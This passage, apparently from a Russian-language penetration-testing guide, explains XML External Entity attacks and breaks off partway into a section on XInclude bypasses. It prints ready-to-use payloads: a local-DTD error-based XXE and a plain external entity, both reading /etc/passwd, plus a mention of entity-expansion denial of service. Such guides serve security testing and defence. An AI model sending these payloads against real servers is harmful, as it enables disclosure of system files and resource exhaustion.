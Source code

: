 Результат: Парсер пытается обработать &lol3;, что приводит к экспоненциальному росту данных (миллиарды символов "lol"), потребляя ресурсы сервера.

#### 2. Использование параметрических сущностей и локальных DTD
Если парсер обрабатывает DTD и разрешает параметрические сущности, можно использовать локальные DTD-файлы для обхода ограничений. Например:
```
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
```
Как это работает:
1. Загружается локальный DTD-файл (`local_dtd`).
2. Переопределяется сущность ISOamso из этого файла.
3. Внедряется код для чтения файла /etc/passwd через создание ошибки (попытка загрузить несуществующий путь, содержащий данные из файла).

#### 3. Чтение локальных файлов через внутренние сущности (если разрешено)
Некоторые парсеры разрешают доступ к локальным файлам через file://, даже если внешние сущности отключены
```
<?xml version="1.0"?>
<!DOCTYPE test [
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<test>&file;</test>
```
Условие: Если парсер не блокирует доступ к локальным файлам через file://, содержимое /etc/passwd может быть возвращено в ответе.


# 4. Обход защит от атаки

#### 4.1. XInclude (XML Inclusions)
Механизм для включения внешних ресурсов или фрагментов данных в XML-документы.

- Если парсер обрабатывает XInclude и не настроен безопасно, это может быть использовано для атак, похожих на XXE (XML External Entity), даже если обработка DTD и внешних сущностей отключена.

- XInclude не требует DTD для работы, поэтому часто остается активным, когда DTD отключены.

**Как проверить уязвимость к XInclude?**
1. Внедрите тег `<xi:include>`:
   Отправьте XML с включением внешнего ресурса (например, файла или URL):
